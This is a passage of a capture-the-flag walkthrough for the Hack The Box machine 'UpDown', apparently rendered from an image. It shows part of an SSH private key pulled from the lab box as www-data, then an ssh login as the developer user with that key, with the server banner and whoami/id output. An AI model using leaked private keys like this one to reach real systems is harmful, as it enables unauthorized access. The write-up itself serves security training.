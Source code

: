 ```bash
z3vcoZFjdpU0j9NSGaOyhxMEiFNwmf9xZ96+7xOlcVYoDxelx49LbYDcUq6g2O324qAmRR
RtUPADO3MPlUfI0g8qxqWn1VSiQBlUFpw54GIcuSoD0BronWdjicUP0fzVecjkEQ0hp7gu
gNyFi4s68suDESmL5FCOWUuklrpkNENk7jzjhlzs3gdfU0IRCVpfmiT7LDGwX9YLfsVXtJ
mtpd5SG55TJuGJqXCyeM+U0DBdxsT5AAAAwQDDfs/CULeQUO+2Ij9rWAlKaTEKLkmZjSqB
2d9yJVHHzGPe1DZfRu0nYYonz5bfqoAh2GnYwvIp0h3nzzQo2Svv3/ugRCQwGoFP1zs1aa
ZSESqGN9EfOnUqvQa317rHnO3moDWTnYDbynVJuiQHlDaSCyf+uaZoCMINSG5IOC/4Sj0v
3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
-----END OPENSSH PRIVATE KEY-----
...
...
www-data@updown:/home/developer/dev$
```
{: .nolineno}
{: .nolineno}

Lets use this private key to access the developer user shell →

```python
┌──(kali㉿kali)-[~/Downloads/HTB/UpDown]
└─$ ssh developer@10.10.11.177 -i id_rsa                      
The authenticity of host '10.10.11.177 (10.10.11.177)' can not be established.
ED25519 key fingerprint is SHA256:c0DzrPfIOA6IA7zGJh7Ee/FJ3B2g7R2KnzeUif9zCWQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.177' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 30 08:46:05 UTC 2023

  System load:           0.08
  Usage of /:            49.9% of 2.84GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             224
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.177
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ec82

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36
developer@updown:~$ whoami
developer
developer@updown:~$ id
uid=1002(developer) gid=1002(developer) groups=1002(developer)
developer@updown:~$
```
{: .nolineno}
{: .nolineno}
